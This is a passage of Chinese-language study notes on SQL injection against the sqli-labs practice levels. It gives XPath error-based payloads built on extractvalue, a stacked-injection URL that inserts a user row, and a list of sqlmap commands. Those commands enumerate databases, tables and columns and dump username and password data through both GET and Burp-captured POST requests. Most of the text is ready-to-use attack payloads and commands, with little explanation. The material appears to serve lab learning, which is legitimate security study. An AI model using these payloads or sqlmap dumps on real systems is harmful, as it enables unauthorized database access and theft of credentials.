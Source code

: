 `base64`格式来进行加密，拿到数据后在后台进行解密

```sql
# 将要插入的数据首先进行base64编码-----以下为基于Xpath的报错注入。
admin ' or extractvalue(1,concat(0x7e,(select version()))) or '
dsad ' or extractvalue(1,concat(0x7e,(select database()))) or '
```



### SQL注入之堆叠注入

原理：通过分号来闭合前一段语句，使得后面的语句可以被执行。

`192.168.0.68:8080/Less-38/index.php?id=1'; insert into users values(15,'zhangsan','zhangsan') -- '`



## SQLMAP 注入

常用指令：（get）

```shell
sqlmap -u http://192.168.0.68:8080/Less-1/?id=1
参数：-u	用于get提交方式，需要追加需要测试的参数

sqlmap -u http://192.168.0.68:8080/Less-1/?id=1 --dbs
参数：--dbs	获取所有的数据库

sqlmap -u http://192.168.0.68:8080/Less-1/?id=1 --tables
参数：--tables 获取全部的表

sqlmap -u http://192.168.0.68:8080/Less-1/?id=1 --columns
参数：--columns 获取全部的列

sqlmap -u http://192.168.0.68:8080/Less-1/?id=1 --dump
参数：--dump 获取全部的数据

sqlmap -u http://192.168.0.68:8080/Less-1/?id=1 -D security --tables
参数：-D 获取当前指定的数据库的信息

sqlmap -u http://192.168.0.68:8080/Less-1/?id=1 -D security -T users -columns
参数：-T 获取当前指定表的数据

sqlmap -u http://192.168.0.68:8080/Less-1/?id=1 -D security -T users -C "username,password"  --dump
参数：-C 获取当前表的某列的数据  

sqlmap -u http://192.168.0.68:8080/Less-1/?id=1 --dbms=mysql
参数：--dbms=mysql 指定数据库类型
```



常用指令：(post) -可以配合get里面的参数进行配合注入

```shell

sqlmap -r burp抓包的文件内容  -p uname
参数：-p 指定文件内需要测试的字段 		注(不推荐)：可以在需要测试的字段后面加上*号，即可不使用-p参数进行注入 例：uname：admin* 则会自动选择uname参数进行注入测试

sqlmap -r burp抓包的文件内容  -p uname --current-db
参数：--current-db 查找当前数据库

sqlmap -u 192.168.0.68:8080/Less-12/ --forms --current-db
参数：--forms 自动检测表单

```

